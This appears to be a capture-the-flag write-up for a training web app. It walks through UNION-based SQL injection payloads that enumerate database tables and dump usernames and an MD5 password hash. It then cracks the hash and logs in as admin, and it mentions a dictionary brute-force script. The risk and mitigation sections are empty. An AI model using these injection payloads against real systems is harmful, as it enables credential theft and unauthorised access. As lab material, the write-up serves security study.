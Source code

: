 ### a01 + a05

# How to find the flag:
* Display all the tables of the databases with : 105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns

* Discover a table named "db_default" which contains three columns : id, username, password

* Try to view its content with the following SQL command "105 OR 1=1 UNION SELECT username, 1 FROM db_default".
-> It will return this error message : Table 'Member_Sql_Injection.db_default' doesn't exist.
-> We understand that it looks for the content of db_default in the wrong database.
-> We now need to find in which database db_default is stored

* Use this command to show all the tables and their databases : 105 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables.
-> We now know that "db_default" is part of the "Member_Brute_Force" database

* List all the usernames of db_default : 105 OR 1=1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default
-> We find two candidates : admin and root

* List all the password of db_default : 105 OR 1=1 UNION SELECT password, 1 FROM Member_Brute_Force.db_default
-> We find hashed data for one specific password : 3bf1114a986ba87ed28fc1b5884fc2f8
-> We don't know if it is for admin or root yet, so we'll try both.

* But first we need to decode it. There's 32 characters so it is probably hashed in MD5.
-> It is ! The password is "shadow"

However, as the password is stored in Member_Brute_Force we suspect that we need to specificly use a brute force method to retrieve it.
In order to do this we wrote a short script in Python using a dictionnary of most common used passwords as a source. 

We then check if the word "flag" is present in the response of the reconstructed URL.

```full_url = f"{BASE_URL}&username={USERNAME}&password={password}&Login=Login#"```

* We can now go to the Signin page and log in with :
- Username : admin
- Password : shadow

# Risks:


# How to avoid:


Sources:
https://owasp.org/Top10/fr/A03_2021-Injection/
https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
https://www.sqlinjection.net/table-names/
https://www.sqlinjection.net/column-names/
https://www.acunetix.com/websitesecurity/sql-injection/